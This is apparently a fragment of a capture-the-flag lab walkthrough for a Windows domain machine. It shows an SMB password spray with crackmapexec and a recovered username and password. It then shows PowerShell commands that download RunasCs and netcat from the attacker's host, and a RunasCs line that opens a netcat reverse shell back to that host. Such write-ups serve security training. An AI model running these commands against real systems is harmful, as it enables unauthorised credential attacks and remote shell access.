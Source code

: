 ```bash
crackmapexec smb 10.129.230.52 -u names.txt -p pass.txt -d freelancer

```

![image23](../resources/2d33db92095544989d4fb1301f7227a5.png)

**mikasaAckerman** : **IL0v3ErenY3ager**

- Upload RunasCs.exe and nc64.exe to /temp:

```bash
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24/RunasCs.exe', 'C:\temp\RunasCs.exe')

(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24/nc64.exe', 'C:\temp\nc.exe')

```
- Run as different user:

```bash
./RunasCs.exe mikasaAckerman IL0v3ErenY3ager "./nc.exe -e powershell 10.10.14.24 8889"

```

![image24](../resources/a26112de19174d5daaffa63278eff115.png)


![image25](../resources/f17440965c484bb4993826b6dfcf3c52.png)
